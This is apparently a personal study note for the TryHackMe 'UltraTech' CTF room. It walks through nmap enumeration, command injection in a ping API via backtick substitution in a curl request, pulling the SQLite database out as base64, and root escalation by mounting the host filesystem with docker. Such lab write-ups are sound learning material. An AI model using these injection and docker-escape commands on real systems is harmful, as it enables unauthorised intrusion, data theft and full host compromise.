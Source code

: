 
2024-07-11 20:46

Source: #web #privesc #CTF 
#### Enumeration 
```
nmap -sCV -v $IP 
```
non-standard port in use?
```
nmap -p- -v $IP
```
1. we find 31331 
2. 8081 has a website hosted that isn't leading anywhere so we try 31331, there we have a proper webpage of ultratech 
3. going to robots.txt we find the site map
#### Exploitation 

we see there is an `api` running that helps in pinging 
```
curl 'http://<ip.address>:8081/ping?ip=`whoami`'
```
above command would otherwise be used to ping an IP address but here with command substitution we can perform command [[injection]] 

since we have an API running we can use `/health` and `/status`

in order to get the data of the [[database]] we try to return the value as a [[base64]] encoding 
```
10.10.65.179:8081/ping?ip=`base64 -w 0 utech.db.sqlite`
```
`-w 0` to make it all one long line
save the file with `.b64` extension the decode it using `base64 -d file.b64

check if a service is available on a machine or not by using - `which service_name`

we can try [[character escape]] by using `\|` instead of `|`
#### Escalation

```
find / -perm -4000 2>/dev/null
```

if nothing sticks out from the above command 
1. go to the `opt` directory  
2. we find `containerd` dir 
3. check the group we are in by using `id` command 
since we are in the docker group we can use find exploits in gtfobins for [[docker]] 
- find local docker images using `docker images`
- run the below command further (bash is the local image found on the machine)
```
docker run -v /:/mnt --rm -it bash
```

### References
[TryHackMe | UltraTech](https://tryhackme.com/r/room/ultratech1)

video soln- 
https://www.youtube.com/watch?v=b8hUHRus6cw

[TryHackMe - Ultratech – sckull](https://sckull.github.io/posts/ultratech/#ftp-ssh)